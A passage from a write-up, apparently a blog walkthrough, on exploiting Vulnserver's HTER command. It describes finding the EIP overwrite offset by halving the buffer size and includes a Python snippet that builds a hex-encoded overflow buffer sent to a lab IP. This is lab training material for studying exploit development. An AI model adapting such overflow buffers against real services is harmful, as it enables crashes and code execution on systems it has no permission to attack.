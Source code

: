 ![hter alignment](/assets/img/vulnserver_hter_20_alignment.png)


## EIP Offset

Creating an offset pattern would be too much of a hassle to figure out so I just approximated a value for the offset using divide and conquer:

* If you have a total buffer size 2048, then you start with an offset of 1024
    * If the EIP overwrite ends up before your B's then you try 512 next
    * Else try 1024 + 512 = 1536 next
* Repeat this dividing process until your guessed offset is close enough to where the EIP overwrite ends up that you can just count the byte difference

In this particular case it turned out to be rather easy to guess:

I tried 1024 and the EIP was only 4 bytes off.

```python
size = 2048
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n"

offset = 1020

buf = b""
buf += b"HTER "
buf += b"f" # alignment
buf += b"41" * offset
buf += b"42" * 4
buf += b"43" * 4
buf += b"44" * (size - int(len(buf) / 2))
```